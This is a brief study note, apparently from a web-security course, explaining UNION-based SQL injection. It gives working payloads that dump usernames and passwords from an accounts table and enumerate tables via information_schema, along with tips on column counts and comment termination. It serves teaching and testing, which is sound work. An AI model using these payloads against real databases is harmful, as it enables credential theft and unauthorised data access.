 ```yaml
---
tags:
  - sqlInjection
---
```


# SQL Injection UNION-based Payloads

Use UNION to get information about another table. 
Usually  original sql looks like:
```sql
select id, title, description, price from newws where id= <input value>
```
We can use sql injection for getting information form another table, for example from accounts:
Payload:
```sql
0 UNION ALL SELECT ID, USERNAME, PASSWORD, 1 from  accounts
```
Result query:
```sql
select id, title, description, price from newws where id=0 UNION ALL SELECT ID, USERNAME, PASSWORD, 1 from  accounts
```

## Notes
1. Number of columns must be the same in the tables
2. Types of columns can be different in the tables in **MYSQL**. . In Postgres and MSSQL types of columns must be the same in the tables. 
3. Use -- to comment part of original SQL 
Payload:
```sql
test')) UNION ALL select NULL, table_name, table_schema, 0  from information_schema.tables where table_schema not in ('information_schema', 'mysql', 'performance_schema', 'sys')-- 
```
2. Use ', ).. to finish first part of  original SQL

## References

1. web200.SQL Injection.Exploiting SQL Injection. UNION-based Payloads
2. (Microsoft, 2021), [https://docs.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver15)

